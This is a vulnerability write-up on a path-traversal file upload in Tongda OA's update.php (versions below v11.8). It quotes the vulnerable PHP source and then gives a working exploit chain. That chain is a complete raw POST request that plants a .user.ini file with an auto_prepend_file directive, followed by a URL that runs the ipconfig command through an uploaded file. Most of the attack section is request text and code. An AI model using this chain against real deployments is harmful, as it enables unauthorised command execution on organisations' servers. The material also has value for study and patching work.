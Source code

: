 # Tongda OA v11.8 update.php background file contains command execution vulnerability

## Vulnerability Description

There is a file upload interface below Tongda OA v11.8, and you can upload a file containing a PHP statement to cause the command to be executed.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA < v11.8</span>

## Vulnerability reappears

The environment used here is Tongda v11.6 version

The file with the vulnerability is `wewebroot/general/hr/manage/staff_info/update.php`

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-30.png)

Here the parameter `$USER_ID` is controllable, and the filtering hazard symbols are spliced ​​in. Then we pass in `../../../` and we can upload any file.

Since the file upload limit of OA is tightly restricted, we can use PHP's `.user.ini` file to include other files. Here it can be used for files containing PHP statements, so the content of our upload file is

```plain
auto_prepend_file=ttt.log
```

The request package is

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="ttt.ini"
Content-Type: text/plain

auto_prepend_file=ttt.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

Where `USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user` is the upload path

Here we have a brief understanding of the upload method, so we will use `.user.ini file` to contain malicious files

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-38.png)



The malicious file has been uploaded successfully

```
 /general/reportshop/workshop/report/attachment-remark/form.inc.php?ttt=ipconfig 
```





![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-39.png)



<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">In v11.6, the upload location is not limited, so you can upload it in a convenient directory (no login required)</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Which in v11.8 has a directory name limitation that requires the directory to have webroot and attachment</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-35.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-34.png)